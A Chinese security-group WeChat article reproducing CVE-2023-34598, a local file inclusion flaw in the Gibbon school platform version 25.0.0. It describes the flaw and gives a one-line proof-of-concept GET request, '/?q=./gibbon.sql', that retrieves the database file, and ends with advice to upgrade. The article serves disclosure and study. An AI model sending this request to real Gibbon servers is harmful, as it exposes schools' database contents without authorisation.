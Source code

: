 #  Gibbon文件包含漏洞(CVE-2023-34598)

弥天安全实验室  [ 弥天安全实验室 ](javascript:void\(0\);)

**弥天安全实验室** ![]()

微信号 gh_41292c8e5379

功能介绍 学海浩茫，予以风动，必降弥天之润！

____

___发表于_

收录于合集

  

  

网安引领时代，弥天点亮未来  

  
  

  

  



![](https://gitee.com/fuli009/images/raw/master/public/20230714180026.png)  
 **0x00写在前面**  
  
**本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**![](https://gitee.com/fuli009/images/raw/master/public/20230714180026.png)  
 **0x01漏洞介绍**  
  

Gibbon是一个解决教育工作者每天遇到的实际问题的学校平台。

![](https://gitee.com/fuli009/images/raw/master/public/20230714180028.png)

Gibbon 25.0.0版本存在安全漏洞，该漏洞源于存在本地文件包含漏洞。攻击者可利用该漏洞在服务器响应中包含本地文件。

![](https://gitee.com/fuli009/images/raw/master/public/20230714180026.png)  
 **0x02影响版本**  
  

Gibbon 25.0.0版本存在安全漏洞

![](https://gitee.com/fuli009/images/raw/master/public/20230714180030.png)

  

  

![](https://gitee.com/fuli009/images/raw/master/public/20230714180026.png)  
 **0x03漏洞复现**  
  

1.访问漏洞环境

![](https://gitee.com/fuli009/images/raw/master/public/20230714180031.png)

2.对漏洞进行复现

 **  POC （GET）**

  * 

    
    
     /?q=./gibbon.sql

漏洞复现

         GET请求，响应存在漏洞

![](https://gitee.com/fuli009/images/raw/master/public/20230714180032.png)

![](https://gitee.com/fuli009/images/raw/master/public/20230714180033.png)

3.nuclei测试（漏洞存在）

![](https://gitee.com/fuli009/images/raw/master/public/20230714180035.png)

  

![](https://gitee.com/fuli009/images/raw/master/public/20230714180026.png)  
 **0x04修复建议**  
  

目前厂商已发布升级补丁以修复漏洞，补丁获取链接：

  * 

    
    
    https://gibbonedu.org/

  

弥天简介

学海浩茫，予以风动，必降弥天之润！弥天弥天安全实验室成立于2019年2月19日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。

口号 网安引领时代，弥天点亮未来

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

![](https://gitee.com/fuli009/images/raw/master/public/20230714180037.png)

  

知识分享完了

喜欢别忘了关注我们哦~

  

学海浩茫，予以风动，必降弥天之润！

  

   弥  天

安全实验室  

![](https://gitee.com/fuli009/images/raw/master/public/20230714180038.png)

  

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

